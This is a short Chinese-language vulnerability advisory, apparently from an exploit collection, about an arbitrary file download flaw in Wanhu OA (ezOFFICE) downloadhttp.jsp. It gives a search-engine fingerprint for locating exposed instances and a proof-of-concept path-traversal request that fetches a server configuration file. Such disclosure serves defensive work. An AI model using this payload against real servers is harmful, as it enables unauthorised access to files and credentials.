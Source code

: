 # 万户OA downloadhttp.jsp 任意文件下载漏洞

## 漏洞描述

万户OA downloadhttp.jsp文件存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

```
万户OA
```

## 网络测绘

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![image-20220520132806210](./images/202205201328307.png)

验证POC

```
/defaultroot/site/templatemanager/downloadhttp.jsp?fileName=../public/edit/jsp/config.jsp
```

![image-20220520132818308](./images/202205201328396.png)